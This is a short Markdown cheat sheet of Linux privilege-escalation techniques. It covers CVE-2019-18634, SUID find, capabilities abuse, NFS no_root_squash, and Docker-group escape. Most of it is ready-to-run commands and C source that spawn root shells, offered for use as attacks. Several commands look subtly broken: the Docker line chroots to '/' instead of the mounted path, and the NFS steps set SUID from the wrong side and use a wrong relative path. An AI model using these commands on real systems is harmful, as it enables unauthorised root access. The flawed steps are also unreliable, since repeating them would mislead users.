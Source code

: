 ### CVE-2019-18634
- Exploit buffer overflow in `pwfeedback` to gain privilege escalation.

### SUID Attacks
- Use SUID binaries to gain root access.
  ```bash
  /usr/bin/find . -exec /bin/sh \; -quit
  ```

### Shared Object Injection
- Inject malicious shared libraries into writable directories.

### Binary Symlinks
- Create symlinks to overwrite or abuse binaries.

### Environment Variables
- Exploit environment variables such as `LD_LIBRARY_PATH` or `PATH`.

### Capabilities Attacks
- Exploit binary capabilities to escalate privileges.
  ```bash
  getcap -r / 2>/dev/null
  ```
  Example:
  ```bash
  /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  ```

### NFS
- Check `/etc/exports` for misconfigurations. Look for entries like:
  ```
  /shared *(rw,no_root_squash)
  ```
- Mount the share:
  ```bash
  mkdir /tmp/nfs_mount
  mount -o rw <server_ip>:/shared /tmp/nfs_mount
  ```
- If `no_root_squash` is enabled, create SUID binaries on the share.
  ```bash
  echo -e "#include <stdio.h>\n#include <stdlib.h>\nvoid main() { setgid(0); setuid(0); system(\"/bin/bash\"); }" > /tmp/nfs_mount/root_shell.c
  gcc -o /tmp/nfs_mount/root_shell /tmp/nfs_mount/root_shell.c
  chmod +s /tmp/nfs_mount/root_shell
  ./tmp/nfs_mount/root_shell
  ```

### Docker
- Abuse Docker group membership to gain root access.
  ```bash
  docker run -v /:/mnt --rm -it alpine chroot / sh
  ```
